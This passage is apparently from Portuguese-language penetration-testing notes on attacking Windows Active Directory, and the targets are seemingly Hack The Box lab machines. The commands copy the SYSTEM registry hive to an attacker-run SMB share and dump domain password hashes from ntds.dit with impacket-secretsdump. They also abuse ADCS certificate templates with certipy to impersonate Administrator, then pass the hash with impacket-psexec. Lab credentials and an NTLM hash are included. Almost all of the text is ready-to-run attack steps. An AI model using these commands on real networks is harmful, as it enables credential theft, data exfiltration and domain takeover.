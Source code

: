 
Fazer o download do arquivo ntds.dit para a máquina do atacante. Além deste arquivo, vamos precisar do SYSTEM tabém, que podemos obter por meio do seguinte comando:

(Se necessário, fornecer credencial):

    net use \\10.0.0.1\smb /user:test test

depois:

    reg save HKLM\SYSTEM \\10.0.0.1\smb\system



claro que temos que estar com o servidor smb de pé (se necessário, colocar senha e usuário):

    impacket-smbserver -smb2support smb .

ou

    impacket-smbserver -smb2support -username test -password test smb .

Assim que os arquivos necessários estiverem an máquina do atacante, considere o seguinte comando:

    impacket-secretsdump local -ntds ntds.dit -system system


## ADCS


    netexec ldap 10.129.204.177 -u grace -p Inlanefreight01! -M adcs
    
    certipy find -u Ryan.Cooper@sequel.htb -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -stdout -vulnerable
    
    certipy req -u Ryan.Cooper@sequel.htb -p NuclearMosquito3 -ca sequel-DC-CA -template UserAuthentication -upn 'Administrator@sequel.htb'
    
    certipy auth -pfx administrator.pfx
    
    impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee Administrator@sequel.htb